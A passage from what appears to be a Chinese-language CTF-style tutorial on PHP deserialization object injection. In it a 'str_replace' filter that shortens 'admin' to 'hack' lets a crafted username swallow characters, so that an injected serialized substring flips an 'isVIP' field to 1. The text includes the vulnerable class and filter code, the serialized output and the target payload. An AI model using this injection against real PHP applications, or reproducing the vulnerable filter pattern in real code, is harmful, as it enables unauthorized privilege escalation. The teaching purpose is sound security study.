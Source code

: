 再计算一下到下一个可控变量的字符串长度：

```php
";s:8:"password";s:6:"
//长度为22
```

因为每次过滤的时候都会少1个字符，因此我们先将admin字符重复22遍（这里的22遍不像字符变多的逃逸情况精确，后面可能会需要做调整）

完整代码如下：（这里的变量里一共有22个admin）

```php
<?php
class user{
    public $username;
    public $password;
    public $isVIP;

    public function __construct($u,$p){
        $this->username = $u;
        $this->password = $p;
        $this->isVIP = 0;
    }
}

function filter($s){
    return str_replace("admin","hack",$s);
}

$a = new user('adminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadmin','123456');
$a_seri = serialize($a);
$a_seri_filter = filter($a_seri);

echo $a_seri_filter;
?>
```

输出结果：

```php
O:4:"user":3:{s:8:"username";s:110:"hackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhack";s:8:"password";s:6:"123456";s:5:"isVIP";i:0;}
```

注意：PHP反序列化的机制是，比如如果前面是规定了有10个字符，但是只读到了9个就到了双引号，这个时候PHP会把双引号当做第10个字符，也就是说不根据双引号判断一个字符串是否已经结束，而是根据前面规定的数量来读取字符串。

这里我们需要仔细看一下s后面是110，也就是说我们需要读取到110个字符。从第一个引号开始，110个字符如下：

```php
hackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhack";s:8:"password";s:6:"
```

也就是说123456这个地方成为了我们的可控变量，在123456可控变量的位置中添加我们的目标子串

```php
";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;} //目标子串
```
